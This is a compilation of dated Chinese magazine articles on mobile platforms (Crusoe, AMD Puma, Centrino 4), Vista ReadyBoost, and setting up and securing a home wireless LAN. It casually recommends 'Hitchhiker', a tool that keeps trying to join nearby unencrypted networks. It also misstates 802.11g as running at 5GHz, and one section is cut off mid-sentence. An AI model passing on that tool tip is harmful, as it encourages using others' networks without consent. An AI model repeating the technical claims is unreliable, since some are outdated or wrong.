与Intel、AMD以及VIA这三大x86微处理器厂商相比，Transmeta（全美达）的知名度或许要小得多，不过这并不意味着平庸。在功耗与发热量方面，Transmeta的Crusoe处理器甚至优于Intel引以为傲的迅驰，成为不少超轻薄笔记本的首选。Crusoe处理器所使用的并不是传统指令集，而是256位结构的VLIW（超长指令），因此性能并非是这款处理器的重点。然而重视功耗与发热量控制并没有错，不过一味忽视性能也是不可取的。发展到末期，Crusoe处理器的性能甚至也只能与Tualatin核心的PentiumⅢ-M持平，浮点性能甚至更差。尽管我们不能简单地认为性能低下是导致Transmeta退出市场的根本原因，但是这至少是重要原因之一。如图14，以低功耗著称的全美达Crusoe移动处理器。



##### 3. AMD彪马次世代移动平台浮出水面

在K6、K7和K8时代，AMD都分别推出过自家的芯片组产品。然而进入K8后期时代之后，急需平台化运作的AMD却盲目地砍去了芯片组业务，这直接导致移动版K8在面对Intel迅驰平台的竞争中处于弱势。不过，如今的局面已经大不相同了，因为收购ATI之后的AMD有了自家的优秀芯片组。如图15，缺少平台支持的移动炫龙根本无法撼动Intel的霸主地位。



与以往芯片组依靠SiS或者VIA所不同，如今AMD推行彪马移动平台不仅可以提供一套完整的解决方案，而且对于成本控制和简化产品营销渠道也有很大的帮助。当然，我们从技术层面还是更加关注AMD芯片组的性能表现。平心而论，为自家的CPU推出芯片组的确能够起到很好的优化作用。在整个AMD彪马平台中，AMD M780芯片组将是中流砥柱。

AMD M780完全是由AMD和ATI联合设计的新一代芯片组，因为其意义绝非桌面平台的AMD 690G所能代表。通过对HyperTransport总线的进一步优化，AMD M780芯片组的综合性能将是非常出色的。此外，AMD M780还是一款真正意义上的移动芯片组。通过80nm工艺，这款北桥芯片即便是集成高性能显卡的情况下也功耗极低，同时其独立电压控制结合温度检测功能还可以实现HyperTransport总线降频工作，充分为移动应用的能耗控制做好了准备。

在谈论到迅驰平台时，我们总是忽略了强大的Intel集成显卡。事实上，无论是I945GM还是如今的GM965，其内置的显卡都有相当不错的性能表现，这也是令以往AMD最为羡慕的地方。反观AMD以往的移动芯片组供应商，SiS和VIA显然更像是低价位笔记本的老手，而非主流市场的竞争者。AMD M780带给我们的一大惊喜便是集成DirectX 10显卡。当然，集成显卡部分完全是基于ATI的技术，因此我们有理由对其抱以极高的期望值。据悉，AMD M780所集成的显示核心采用了Windows Vista的统一渲染架构，每个流水线都可以完成Vertex Shader或者Geometry Shader和Pixel Shader工作。根据预测，AMD M780极有可能是RV630的简化版本，只是适当减少流处理器，并且显存位宽为128bit。但是即便如此，其性能表现足以让GM965汗颜，真正打造出超强性能的移动集成显卡。当然，未来M780的集成显卡肯定还会细分，这样也有利于AMD布置竞争力更强的产品线。

另外非常值得介绍的是，M780还支持PowerXPress这项全新技术。在彪马平台中，很可能所有的芯片都集成显卡，但是这并不影响用户使用独立显卡。通过PowerXPress技术，用户无需重启Windows就可以在集成显卡和外部PCI-E 2.0显卡之间动态切换。今后，我们可以在笔记本使用电池的时候启用集成显卡，而在外接电源的时候自动调整至高性能的独立显卡。如图16，PowerXPress技术切换集成显卡与独立显卡。


AMD彪马平台的综合技术指标无疑让人非常期待，那么在与迅驰4的对比中，其竞争力又如何呢？首先，让我们看一下两大平台的主要内容。通过下面这张对比表，可以发现迅驰4依然显得非常全面，而AMD彪马平台到目前为止还是有很多未知数。但是毫无疑问的是，彪马平台在集成显卡方面占据很大的技术优势，同时其Griffin移动处理器的性能也让人十分看好。

| | AMD彪马 | 迅驰4 |
|---|---|---|
| 代号 | Puma | Santa Rosa |
| CPU | Griffin | Merom |
| 芯片组 | M780 | PM965/GM965 |
| 无线网卡 | 第三方 | ProWireless 4965AG / 4965AGN |
| 集成显卡 | 基于R600架构 | GMA X3000 |
| 其他模块 | HyperFlash加速模块 | Turbo Memory迅盘加速模块 |
| 发布日期 | 尚未正式发布 | 2007年5月 |

在AMD推出彪马平台之后，迅驰4可谓真正遇到了对手。移动平台对比的重点依然是移动处理器和集成显卡，前者目前鹿死谁手还很难下结论，因为Griffin移动处理器还尚未发布工程样品，仅仅从其技术指标来看是很让人看好。至于集成显卡对比，承载ATI血液的AMD显然有着十足的底气，这也是让Intel深感危机的地方。此外，彪马平台中的SB700移动南桥芯片还支持HyperFlash技术，这类似Intel的Turbo Memory迅盘加速模块。HyperFlash加速模块的原理便是充当硬盘和系统之间的缓存。读取数据的时候，硬盘根据预测算法，将需要使用的数据部分转移到HyperFlash上，系统则从HyperFlash直接读取。由于HyperFlash技术直接集成在南桥芯片内，并且通过HyperTransport总线连接，因此其效率将丝毫不低于Intel的迅盘技术。

写在最后：
当年表现拙劣的Pentium4-M都能占据大量的市场份额，Intel的号召力自然可以轻而易举地推广这项极具实用价值的技术。在肯定迅驰4平台双核心移动处理器性能的同时，我们也更为期待散热与节能技术能够同步发展，从而避免类似Pentium4-M的高性能、高热量、大功耗产品。值得庆幸的是，作为行业领头羊的Intel已经充分认识到这点，甚至已经着手制定相应的规范来引导笔记本厂商，并且在电池技术上取得相当大的进步。未来的笔记本将会是多核心计算、全天候续航、超轻薄便携，这些并不是遥不可及的奢望……

### 有了ReadyBoost，小内存照跑Vista！

◇文/小笼包

Windows Vista对硬件的要求之高是众所周知的，要想流畅运行Vista系统，至少需要1GB容量的内存，而且建议配置2GB及以上的内存。但是对于一些旧型号的电脑来说，内存容量相比就显得太小，而且由于内存插槽已插满或芯片组的技术限制，几乎无法再进行扩展。难道我们的“老伙计”就无法体验Vista系统的魅力了吗？没关系，ReadyBoost可以帮你。ReadyBoost是Windows Vista系统提供的一个相当引人注目的功能，它主要是利用闪存随机读写及零碎文件读写上的优势来提高系统性能。

#### 1. ReadyBoost的工作原理

ReadyBoost的原理是什么呢？我们知道，由于内存容量有限，Windows系统通常会在硬盘中划分一部分空间作为虚拟内存，用于存储物理内存中的活动数据，而虚拟内存速度只等同于硬盘速度。通过ReadyBoost功能，只需简单设置，闪存盘就可以一定程度上作为内存使用，系统会将物理内存中的活动数据同步保存在虚拟内存和闪存盘上，并优先从闪存盘读取数据，由于闪存盘的随机访问速度远高于硬盘，因此就提升了系统性能。

一直以来，很多人简单地认为：ReadyBoost就是用闪存盘来扩充内存，把闪存盘当作内存使用。但了解了ReadyBoost的原理后就知道这是完全错误的！实际上，ReadyBoost不是在添加内存，而是在提升磁盘访问效率。

#### 2. 可以使用ReadyBoost的闪存设备

理论上讲，只要符合规格，所有基于闪存技术的设备都可以使用ReadyBoost功能，所以不仅仅是闪存盘，SD/CF/MMC/MS卡配合读卡器，只要满足规格要求，也可以使用ReadyBoost功能。但要注意的是，移动硬盘和MP3播放器不能使用ReadyBoost。

那么，到底什么规格的闪存设备才能使用ReadyBoost呢？微软给出了似乎有些苛刻的条件：

+   （1）闪存为USB 2.0规格产品；
（2）4KB文件的随机读取速度不低于2.5MB/s，512KB文件的随机写入速度不低于1.75MB/s；
（3）闪存容量不少于256MB，剩余空间不少于64MB。

这样的条件看似苛刻，其实是有一定必要的。如果闪存盘的读写速度过慢或容量不够的话，用于ReadyBoost不仅不会提高系统性能，甚至可能会在一定程度上拖慢整个系统的速度。

#### 3. ReadyBoost的使用方法

下面我们就来看看ReadyBoost的具体使用方法。

将符合规格的闪存盘插入电脑USB接口，Vista会弹出“自动播放”对话框，单击“加速我的系统”，在测试闪存盘性能后会弹出磁盘属性对话框，单击ReadyBoost选项卡，选中“使用这个设备”单选按钮，然后拖动“用于加快系统速度的保留空间”下面的滑块，设置用于ReadyBoost的空间大小（最好按照对话框中系统推荐的大小来设置）。单击“确定”后，系统会自动在闪存盘根目录下生成一个名为“ReadyBoost.sfcache”的缓存文件，它的大小就是前面所指定的保留空间大小。好了，现在你就可以尽情享受ReadyBoost所带来的性能提升了。

提示：如果插入闪存盘后看不到ReadyBoost的相关选项，那就意味着此闪存盘的硬件指标不符合ReadyBoost要求。网上流传着一些强行打开闪存盘ReadyBoost功能的文章，经作者验证，这些操作并不可行。退一步说，当闪存盘性能不符合要求时，就算能强行打开ReadyBoost，也未必能够起到提升系统性能的作用，搞不好还会拖慢系统速度，何必多此一举呢？

#### 4. 使用ReadyBoost的注意事项

很多人会问，ReadyBoost在使用中有哪些注意事项呢？需要注意的是：

+   （1）ReadyBoost启用后，闪存设备无法被格式化，而且剩余的空间也无法自由支配。
（2）每台使用Windows Vista的电脑只能使用一个ReadyBoost设备。
（3）要想充分发挥ReadyBoost的提速效果，闪存设备中加速的内存容量和内存的大小比例应保证为1：1至3：1。

总之，ReadyBoost具有很多的优点：它采用了特殊技术，几乎不会影响到闪存盘的使用寿命；即使突然拔掉闪存盘，也不会导致数据丢失；ReadyBoost还有加密措施，确保了数据的安全。但是由于使用ReadyBoost需要生成缓存文件，所以每次开机时，CPU占有率一度会比较高。最后提醒读者，要想充分发挥ReadyBoost的效果，一定要选择通过微软认证的支持ReadyBoost的高速闪存盘产品，例如，威刚PD7 200X等。

### 家庭无线局域网应用全面指南

◆文/龚师傅

随着全球网络化的深入和发展，局域网越来越多地进入公司以及家庭之中，布线问题的复杂性就越来越突出了，无需布线的无线局域网便应运而生。随着标准逐步成熟，以及相关产品价格持续下跌，无线局域网正在获得越来越广泛的应用。无论在家庭还是在办公环境，都开始使用无线局域网。本文将从基本知识、相关硬件选购、软硬件安装设置、无线组网方案、常见故障处理等各个方面讲述无线局域网的相关应用。

#### 一、无线局域网概述及特点

顾名思义，无线局域网（WLAN）包含两层含义：“无线”和“局域网”。无线是指去除了传统网络中的网络传输线缆，利用无线技术进行信息传递。局域网是相对于“广域网”而言的，通常是指在一个特定的单位内位于相同的IP地址网段、相互通信的计算机组成的网络。无线局域网是计算机网络与无线通信技术相结合的产物。从专业角度讲，WLAN利用了无线多址信道的一种有效方法来支持计算机之间的通信，并为通信的移动化、个性化和多媒体应用提供了可能。通俗地说，WLAN就是在不使用缆线的同时，提供以太网网络的功能。

无线局域网真正开始投入实际应用，最重要的标志是1997年IEEE提出并制定了无线局域网标准IEEE802.11系列，随着IEEE802.11a、IEEE802.11b标准的出台以及WI-FI组织的成立，促进了无线局域网产品的兼容化、标准化以及市场化。从此后，无线局域网随着电脑尤其是笔记本电脑和PDA的普及受到了越来越多的关注。

与有线局域网相比较，无线局域网具有开发运营成本低、易扩展、受自然环境、地形及灾害影响较小、组网灵活快捷等优点，弥补了传统有线局域网的不足。借助无线局域网技术，人们在家庭、办公室、学校、宾馆、机场、会议中心，都可以轻松接入互联网、随意地收发电子邮件、分享档案及上网络浏览，享受无线移动互联网带来的高效与自由沟通的便利。总之无线局域网最大的优势就在于无需布线和维护方便，利用无线局域网技术，几分钟就能搞定网络组建。目前大城市中的Wi-Fi无线上网热点越来越多，甚至有城市提出了组建“无线城市”的想法，民间（如“伙聚网”）也在尝试使用承载着互联网自由、免费共享精神的WiFi无线局域网技术，通过聚合草根网民的力量，提供免费的WIFI上网服务和社区服务。从未来发展看，基于IEEE802.16标准的无线城域网技术WiMax，能实现50公里的无线信号传输距离，只要少数基站就能实现全城覆盖，这样就使得无线网络应用的范围大大扩展。可以预计的是，无线局域网应用在未来一定会像今天的手机一样普及。

> ### 小知识
##### 什么是IEEE802.11g?
802.11g是目前最常用的无线局域网标准，由于IEEE802.11b传输速度较低，而802.11a成本较高，为此IEEE推出了新的802.11g标准，使用的频带与802.11b相同，仍为2.4GHz频带。不过在调制方式上，使用了新的频谱（Spectrum）扩散技术。802.11g其实是一种混合标准，它既能适应传统的802.11b标准，在2.4GHz频率下提供每秒11Mbit/s数据传输率，也符合802.11a标准，在5GHz频率下提供54Mbit/s数据传输率，具备良好的兼容性和传输速度。随着价格急剧下跌，目前已经取代IEEE802.11b，成为无线局域网的主流标准。

#### 二、家用无线网络设备选购

无线局域网产品主要包括了无线网卡、网桥、无线Modem、接入点（AccessPoint）、无线路由器、天线、馈线、避雷器等。对于家庭用户而言，最常用的就是无线网卡和无线路由器。



- 1. 无线网卡选购要点

除了内置无线模块的笔记本电脑、PDA，要使用无线局域网，我们必须选购一款适合的无线网卡。选购时我们应注意以下几点：
首先是接口类型，目前无线网卡的接口类型有PCI、USB、PC卡、MINIPC、CF、SD等。可在台式机上使用的无线网卡主要是PCI接口和USB接口两种，而笔记本电脑通常用PC卡、MINIPC或USB接口的无线网卡，掌上电脑则使用CF或SD接口的无线网卡。PCI接口的无线网卡目前已经基本被淘汰，从使用方便和通用角度考虑，USB接口无线网卡是比较好的选择。
目前USB无线网卡主要有两种外观形式，分别是：盒型和U盘型。盒型的USB无线网卡都带有一条数据延长线，多数为天线外露，这些设计使它更容易在桌面上放置，以便于使用者能让它有更好的方向指向，使无线信号的接收效果最佳。U盘型的USB无线网卡的天线都内置，所以不便调节天线的指向，但它小巧及便于携带的优势却是盒型USB无线网卡所不能比拟的。如果主要是台式机使用，建议选择盒型的。
MINIPCI是在PCI2.0的基础上扩展出的适用于笔记本电脑的PCI接口标准，目前采用这一接口标准的笔记本电脑配件主要是无线网卡。MINIPCI无线网卡安装于本本内部的MINIPCI插槽中，本身不集成天线，靠预置在笔记本电脑机身中的天线来获取信号，是否可以使用此类无线网卡应视该机是否留有多余的MINIPCI插槽和是否预置天线而定。
其次是网络标准，目前无线局域网有802.11a、802.11b、802.11g等三个Wi-Fi联盟认证标准。无线网卡也要支持相应的标准。IEEE802.11g是现在的主流标准，因此除非有特殊原因，我们应选择支持该标准的无线网卡。另外，某些非标准产品可能有更高的速度，但需要和特殊的接入设备配合使用才能达到，购买时一定要注意兼容性问题。
最后还应注意覆盖范围、安全性能等因素。无线网卡覆盖范围的大小直接影响到无线信号的发送和传输，这是一个比较重要的指标。通常室内覆盖范围应达到30～120米，室外覆盖范围为100～350米，这主要取决于产品天线部分的设计水平和发射功率。功率越高，能传输的距离就越远，所以我们尽量选择发射功率较高的产品。不同产品的实际覆盖范围可能有较大差别。在室内使用的话，还涉及一个“穿墙能力”的问题。厂家给出的覆盖范围仅是一个理论值，受实际使用环境的影响很大。
在无线局域网中，安全问题是比较重要的，在选购台式机无线网卡的时候，一定要注意安全性能指标。市场上的无线网卡都支持64位或128位的WEP加密技术，有的产品可以达到256位，如果是企业使用，建议选择WEP加密位数较高的产品。



- 2. 无线AP/路由器选购

组建无线局域网的核心设备就是无线AP或无线路由器。首先来谈谈这两种设备的相似和不同点。所谓无线AP（AccessPoint），一般翻译为“无线访问节点”，AP信号覆盖范围内的无线工作站可以通过它进行相互通信，无线AP可以被视为无线化的交换机。无线路由器是AP与宽带路由器的一种结合体；一般包括了网络地址转换（NAT）协议，可实现无线网络中的Internet连接共享，实现ADSL和小区宽带的无线共享接入。同时大多具备基本的防火墙或者信息包过滤器来防止端口扫描软件和其他针对宽带连接的攻击。同时大多数无线路由器包括一个四端口的以太网转换器，可以连接几台有线的PC。很显然无线路由器的功能更丰富一些，而且与无线AP价差也不大，一般家庭和小型办公环境通常都应该选择无线路由器。但是独立的AP在那些需要大量AP来进行大面积覆盖的情况下就比较合适，所有AP通过以太网连接起来并连到独立的无线局域网防火墙，就不需要购买无线路由器了。
和无线网卡类似，我们在选购无线路由器时要注意网络标准、覆盖范围、安全性能等要点。通常应选择支持IEEE802.11g的产品。一般来说名牌产品在稳定性、覆盖范围、安全性能等方面都做得比较好。由于无线路由器是无线网络的核心，因此建议选择名牌产品。另外我们还可根据需要选择ADSL+WLAN路由整合的产品，这样管理和维护更加简单。
选购无线路由器还应注意产品设置界面的易用性及提供的安全保障功能是否丰富，是否支持MAC地址、IP地址、URL等多种数据过滤策略，是否具备网络防攻击、防伪通讯协议等功能，是否具备「封包过滤」功能(BasicParentalControl)，以锁住特定的色情或不法网站服务，其他还要考虑对防火墙、WPA安全标准的支持等。高级一些的无线宽带路由器还可提供除了无线局域网所要求的联网安全技术外的丰富的防火墙性能，如：SPI状态包检测、端口屏蔽、MAC硬件地址过滤、VPN等。
无线路由器的选购还应注意一些特殊功能。比如是否支持UPnP的功能，从而让MSN、Netmeeting和DirectPlay等UPnP支持的协议可以正常运作。而支持WDS功能，使得可以作为Repeater、Bridge，适合各种无线网络需求。其他还有天线类型，如单天线还是双天线设计，是否内置有线交换口等。
目前市场上无线网卡、无线路由器相关产品很多，限于篇幅这里就不作具体介绍了。总之选购无线网卡、无线路由器时，大家要记住两个重要原则，一是一定要选支持IEEE802.11g标准的产品，二是要选择市场上的主流品牌。可能的话，最好选择相同品牌的套装产品，不仅价格优惠幅度较大，也具备最好的兼容性。
一般家庭及SOHO环境只需使用无线网卡和无线路由器即可轻松组建无线局域网，但是对于大规模的企业组网或者有远距离组网等特殊要求，还需要选购无线网桥、天线等设备，这里就不详谈了。

- 3. 无线局域网与“迅驰”技术

由于笔记本电脑移动使用的特点，对无线局域网的依赖度也最大。实际上真正让无线局域网“火”起来的，就是业界巨头Intel大力推广的“迅驰”技术，在2003年的IDF(“英特尔开发者论坛”)上英特尔踌躇满志地发布了“迅驰(Centrino)移动计算技术”计划，这是一种全新的无线移动计算解决方案，也是Intel第一次将处理器、芯片组以及网卡等不同产品统一包装后以一个品牌进行推广。迅驰技术的主要特点在于：集成对无线局域网Wi-Fi的直接支持；降低能耗延长电池寿命和优良的运算性能。
毫无疑问“迅驰”移动计算技术取得了巨大成功，移动计算一个最重要的发展趋势就是大规模推广无线局域网（Wi-Fi）的应用。对无线连接的支持也是Intel迅驰技术的核心内容之一。在新的移动平台上，无线通讯模块也在不断升级，新的Gaston无线LAN模块基于PCIExpress总线，向下兼容IEEE802.11a/b/g三重模式，同时还支持IEEE802.11i(WPAv2)及IEEE802.11e的WME，所支持的无线LAN功能将极为完整。今后将有更新的Calexico3无线通讯模块，支持802.11n和WiMAX，而WiMAX远程无线宽带技术将让笔记本上网更自由。
Intel全力推进的“单芯片无线互联网(wireless-Internet-on-a-chip)”技术将为笔记本电脑带来低功耗、高性能的计算和通信功能。它将支持新一代笔记本电脑的发展，从而改变人们进行计算的地点和方式，带来更出色的移动计算自由，使用户真正享受到无线连网的优势。在未来的无线应用方面，英特尔还公开了具有软件无线（SDR）功能的试制机“IRONSIDES”。英特尔将SDR技术称为“自适应无线架构（AdaptiveRadioArchitecture）”。从Intel对无线连网技术的重视，我们可以清楚看到，无线连网应用将是今后笔记本电脑发展最重要的趋势。
事实上，在IT应用中，移动和无线是大趋势。甚至显示器也将从有线到无线过渡。在未来的数字家庭中，无线显示器的必要性将会越来越突出。当越来越多的设备和主机以无线的方式连接时，显示器与主机之间连接的那条线缆也迟早会被剪掉。今后，通过支持802.11a、802.11g等带宽更宽的无线### 三、家庭及SOHO无线局域网组建实例

在介绍具体的组网方案前，先给大家谈谈无线网卡及无线路由器（AP）在软硬件上的基本安装设置要点，因为组建任何一种无线局域网都会涉及到这两种设备的安装设置。

##### 1. 无线网卡的安装设置

除了PCI内置型及MINIPCI无线网卡稍微涉及一点简单的硬件安装外，大多数无线网卡的安装实际上就是驱动程序安装。名牌无线网卡在WinXP/VISTA下通常能被自动识别，对系统不能直接驱动的网卡，则需要安装自带驱动程序。在驱动程序安装完成后，最好把网卡自带的管理软件也装上，特别是在非WinXP系统中，网络调试中很多参数的设置需借助厂商提供的专用软件完成。而且这些软件拥有更全面和高级的设置、安全认证、管理功能，而且配置方式也更人性化，所以建议大家优先使用网卡自带配置程序。

安装好驱动程序后，在Windows XP的网络连接中会直接显示出“无线网络”，再打开该网络连接的属性页，在TCP/IP协议中指定其IP地址、子网掩码和DNS等地址。设置方法和有线网络是一样的，也可以选择由无线路由器DHCP动态分配IP地址，连接好以后，状态栏中会显示当前速度、连接时间等信息，和普通的网络连接并无两样。在Windows XP操作系统中，还会显示出无线网络的信号强度。实际上我们完全可以把无线网卡当成一个普通网卡来看待。

当然用无线网卡还需要注意安全方面的设置。尤其在对无线路由器安全机制做了修改之后，要对无线网卡的参数做相应的修改，才能使客户端加入到此WLAN中去。其中“ESSID”对应无线路由器设置中的“SSID”，要保持一致才能连入网络。“Encryption Level”加密级别对应“密钥类型”，即WEP共享密钥中的加密位数，根据无线路由器设置的选项来选择64位还是128位。同时还要设定WEP共享密钥，根据无线路由器中的设置对应填写。另外无线网卡还有工作模式的设定，分为连接路由器的“客户端”模式，和连接到另一个无线工作站的“点对点”模式。

##### 2. 无线路由器的安装设置

无线路由器或无线AP的安装要稍微复杂一些。硬件上首先需要注意其安装位置，为了获得更大的信号覆盖范围，建议在条件允许的情况下把无线AP或路由器尽量安置在比较高和“居中”的位置。市场上流行的无线路由器一般都支持专线xDSL/Cable、动态xDSL、PPTP四种接入方式，在连接无线路由器时，要注意它提供的网线接口有两种：一种标为WAN的RJ-45网线接口是专门用来连接 ADSL Modem或者Cable Modem等有线宽带入户接入线缆的，而其他的普通RJ-45网线接口和有线交换机上的接口一样是用来连接局域网网线的。特别要注意ADSL Modem与路由器的WAN接口之间不能使用普通网线，而要用那种双机直接对连用的交叉线。

无线路由器都具备一个IP地址，我们可以通过访问这一IP地址来配置相关参数和进行无线路由器的各项测试，不同品牌型号的无线路由器IP地址不尽相同，具体可以参考说明书。要注意与之连接的网卡需处于同一IP网段内。现在很多AP及无线路由器都支持通过浏览器直接登录配置，打开IE浏览器，在地址栏中打入无线路由器的地址，此时系统会要求输入登录密码。正确后便可进入管理界面，设置各种参数。

除了设置界面稍有不同外，大部分无线路由器和AP的无线设置参数都是很类似的。一般无线路由器和AP都会有几个设置项，包括基本网络参数设置、安全认证设置等。首先我们设置好无线路由器连接的宽带接入方式，比如选择PPPoE for DSL，同时填上正确的用户名及密码，就可以实现自动拨号上网了。此外当使用环境中有两个以上的无线路由器时，需要为每个无线路由器设定不同的频段，以免冲突。基本的网络参数设置完成后，如果用户对安全方面没有任何要求，客户机无线网卡在默认状态下即可连入了。而在安全设置上，我们可以设置MAC地址过滤、是否允许SSID广播、安全认证类型等，具体后面将详谈。

##### 3. 家庭及SOHO无线组网方案

家庭和小型办公环境的无线组网要求是类似的。一般来说，只要求有几个房间的覆盖范围即可。要实现的目的也很单纯，无非就是数据传输和宽带上 网共享。基本上就是有线局域网的简单“无线化”而已。因此组网方案也很简单，通常只需将原来有线网络中的普通路由器换成无线路由器，交换机换成无线AP，普通网卡换成无线网卡即可完成无线组网，再按照前面讲述的内容对无线网卡和路由器作一些简单设置即可。要注意，在SOHO无线组网中，宽带上 网共享是要重点达成的目的，这里给大家谈谈常见组网方案。

家庭环境：现在很多家庭都拥有了两台甚至两台以上的电脑，这就需要在家庭环境中具备多个网络接入点。如果在最初装修布局时未考虑周全的话，就可以通过在家中组建无线网络来解决。在家中设立无线局域网（WLAN）既简单又省钱，能在阳台上、花园中随时接入网络冲浪，而无需担心电缆和插头，感受前所未有的灵活性和自由性。

如果使用ADSL拨号接入方式，我们只需将无线路由器与ADSL MODEM连接，并设置好上网密码等相关参数即可，也可以选择整合了ADSL宽带接入和无线AP功能的产品，这样就可以减少一个设备的连接，显得更加整洁。如果使用小区宽带的接入方式，那么组网方案更加简单，只需要直接将无线路由器WAN口与宽带接入口连接即可。这样，只要无线路由器开启，房间内每一台装有无线网卡的电脑都能方便地共享宽带上 网。

另外也可以不购买无线路由器，而在原来接入宽带的台式机上，加装一块无线网卡，同时笔记本等其他电脑，与该台式机通过无线网卡采用“点对点”方式连接后，也能共享宽带上 网。但这样该台式机必须随时开启，使用上并不方便，也不经济，不推荐大家采用此方案。最后要注意，在室内使用无线局域网，应考虑电磁波对人体健康的损害及与其它电磁设备的相互影响。要符合无线电管理部门规定的频段、发射功率及辐射等各项技术指标。

小型办公环境：在小型办公环境中，有了无线局域网，员工们就可以充分享受无线连接的自由：到办公室后，打开自己的笔记本电脑，就可以摆脱烦人的双绞线，在公司内自由移动办公了。会议室中，也无需布置令人头痛的网线了。

对于小型办公用户，建议选择具备多个以太网口和打印端口的无线路由器，这样公司可以根据内部终端设备实际情况，台式机通过普通网卡与以太网口连接，而笔记本电脑通过无线网卡连接无线路由器共享上网，组建“有线无线混合网”，这样台式机不必配置无线网卡，从而降低部分成本。与此同时，打印机可直接与无线路由器的自适应打印端口连接，实现打印服务器共享功能，继续节省办公成本。

当公司规模扩大后，如果需要无线接入的用户，超过了单个接入点的覆盖半径和接入能力时，还可以采用多个接入点分别与有线网络相连，从而形成以有线网络为主干的多接入点的无线网络，所有无线终端可以通过就近的接入点接入网络，访问整个网络的资源，从而突破无线网覆盖半径的限制。

##### 4. 手持设备的WIFI应用简介

台式机或笔记本电脑使用WIFI已经很普及了，其具体应用与上有线网络差不多。这里谈谈掌上电脑（PDA或智能手机）等手持设备上的WIFI应用。现在越来越多的手持设备都开始内置WIFI功能了，手持设备有了WIFI，晚上躺床上就可以看电影听歌曲还可以聊QQ看看新闻，打免费国际长途，是不是很爽呢？下面以PPC平台为例说明WIFI的相关应用。

首先从硬件上看，目前部分PPC手机内置WIFI无线连接技术。使用WIFI连接上网后，我们能享受更多的乐趣，比如实现移动电视和网络电话功能，推荐著名的Skype For PPC，这是一款无敌的网络语音通话软件，优质的语音通话质量，几乎免费的通话费用，如果你的PPC智能手机内置WIFI功能，强烈建议你安装。但可惜由于安全标准之争，目前国内市场上还不允许带WIFI功能的手机上市，大家可以购买水货或使用SD接口的WIFI卡扩展。

软件上，由于PPC内置的WIFI管理软件通常比较简单，首先推荐使用Wi-Fi伴侣这款直观的图形化软件，它能让你PPC的WIFI连接属性一目了然。还带有节电功能，使用电池时可以通过节电设置来延长待机时间。这款软件界面友好易用，能够让你轻松管理无线局域网的各类连接属性。Wi-Fi伴侣对于高级用户提供高级诊断工具。用户可以通过Ping命令来检查本机与服务器或其它终端的连接情况。路径追踪工具可以追踪每个PPC向Internet服务器发送的数据包，显示每次访问进程和到达目的地所用时间，这可以帮助你在网络访问速度慢时查明访问延迟的原因。

最后再为大家介绍两款自动搜索工具，WiFiFoFum是搜寻WIFI基站的好工具，可自动扫描并显示当前范围内的所有Wi-Fi热点列表。热点列表显示信息十分丰富，包括WEP有线等效保密（ON/Off）、设备的MAC地址、SSID服务组织识别码、设备类型（Access Point）、RSSI（接收的信号强度）、通道、第一次搜索到时间、最后一次搜索到时间、Lat（坐标纬度）和Lon（坐标经度）等。如果你的Pocket PC内置GPS模块或者你拥有其他的GPS设备，你还可进入WiFiFoFum的GPS模式，将当前区域中所有的Wi-Fi热点位置全部记录下来。而“Hitchhiker”是一款自动搜寻无密码的无线网络的软件，专门用来自动搜寻周边的无线信号，可以设置优先未加密网络，并且疯狂地不断尝试连接上去。

##### 小技巧

将带WIFI功能的PPC手机作为电脑的USB外置WIFI无线网卡

如果你的PPC系统为Windows Mobile 5.0 AUK3以上，可先在手机上设置好上网参数，也就是说你要先保证你的手机能够上网，再点“开始”→“程序”，到程序组里面找到一个“网络共享”的图标（繁体版本的话叫做“网际网路共享”），点开后你会发现，可以通过数据线或蓝牙来让电脑共享手机上网。用蓝牙比较复杂，要求电脑和手机组建好蓝牙局域网，一般还是用数据线更方便，还不怕断线。所以在“PC连接”中选择usb；“网络连接”那里你可以选择要用的连接，选择好后，点连接。再插上数据线，就ok了。现在你会发现电脑也能够上网了。另外要通过WIFI将PPC和电脑联网，也可以使用Pocket LAN这款软件。

#### 四、无线局域网的安全

在网络技术迅猛发展的今天，通过无线局域网上网已经不是什么新鲜事了。但无线上网在带给我们方便的同时，也存在着严重的安全隐患。如何保障无线局域网安全，是值得关注的重要问题。由于无线网络不像有线网络那样受到地理位置的限制，只要有无线信号的地方便可联入，因此安全性问题备受人们关注。

##### 1. 无线上网安全存在隐患

坐在星巴克咖啡厅里享受着无线上网惬意的你，可能从未想到过，此时咖啡馆里另一台电脑已进入你的系统，窃取了你硬盘上的重要资料。而刚刚在家里组建了无线局域网，兴奋之余，也许你还不知道，左邻右舍也能顺便“沾光”共享上网……

对于普通有线网络来说，其信息是通过线缆传输到指定目的地，只要物理链路没有被破坏，那么网络中传输的信息就不会被泄露；而无线网络节点正常可以辐射到100米左右的范围，也就意味着其信号可能被邻居或其他人接收到。

##### 2. 更改无线路由器默认设置

无线网络的安全隐患正成为人们关注的焦点，只要我们及时有效地采取应对措施，还是能够增大非法攻击者入侵无线网络的难度。其实为无线网络建立基本安全防护并不复杂，整个过程只需花几分钟时间，就可以大大提高无线网络的安全性。

前面已说明，目前绝大部分无线AP和无线路由器都提供了Web式管理，当用户第一次进入管理界面时需要输入用户名和密码。无线网络访问节点的管理可以使用浏览器进行，在地址栏输入无线网络节点的地址，在弹出的认证框内输入说明书中所给出的无线网络节点管理密码，就可以进入无线网络节点的管理界面了。因此强烈建议大家自行修改无线网络节点的管理密码。

一般情况下，厂商在其产品说明书中均会注明AP出厂时的默认用户名和密码。如果你选购的是二手产品，无说明书可查的话，那只有到厂商的主页去下载相应的产品手册了。至于那些已被“前任主人”设置了特殊账号和密码的无线AP，则可以通过“出厂重置键”来恢复其默认值，然后再重新改为你自己的设定置。

如果将远端WEB管理IP地址设为255.255.255.255，那么广域网中所有的计算机都可以登录路由器执行远端WEB管理，这样安全性是最差的。如果将远端WEB管理IP地址设为0.0.0.0，在此设定下，广域网中所有计算机都不能登录路由器执行远端WEB管理，这样安全性最好，但在使用上不太灵活。建议你进行如下设定：

改变默认的远端WEB管理IP地址，这样广域网中只有具有指定IP地址的计算机才能登录路由器执行远端WEB管理。另外还可以改变WEB管理端口，路由器默认WEB管理端口为80，如果改变默认WEB管理端口（例如改为88），则你必须用“IP地址：端口”的方式（例如http://192.168.0.1:88）才能登录路由器执行WEB界面管理。

##### 3. 正确设置无线网络密钥（WEP）

